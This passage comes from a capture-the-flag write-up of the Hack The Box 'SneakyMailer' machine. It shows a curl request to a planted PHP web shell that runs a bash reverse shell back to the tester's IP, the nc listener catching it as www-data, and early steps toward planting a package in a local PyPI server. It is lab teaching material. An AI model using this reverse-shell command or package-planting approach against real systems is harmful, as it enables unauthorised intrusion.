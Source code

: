     
    
    root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.42/443 0>&1'"
    

`nc` gets a connection:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:54094.
    bash: cannot set terminal process group (661): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade the shell with the [standard python pty stty
method](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-
ttys/).

## Priv: www-data –> low

### Enumeration

#### Identify Path

There are two users on the box, low and vmail:

    
    
    www-data@sneakymailer:/home$ ls
    low  vmail
    

www-data can’t access vmail, but can access low, where `user.txt` is,
unreadable:

    
    
    www-data@sneakymailer:/home/low$ ls -l
    total 8
    -rwxr-x--- 1 root low   33 Jul 12 16:48 user.txt
    drwxr-xr-x 6 low  low 4096 May 16 03:33 venv
    

This is where the second email from Paul Byrd is useful. It tells low to
download and run all the Python packages in their local pypi. Definitely a
hint that I should put one in there.

#### PyPI

First I need to understand the PyPI config. In the process list, the pypi user
is running `pypi-server`, a [minimal PyPI
server](https://pypiserver.readthedocs.io/en/latest/README.html):
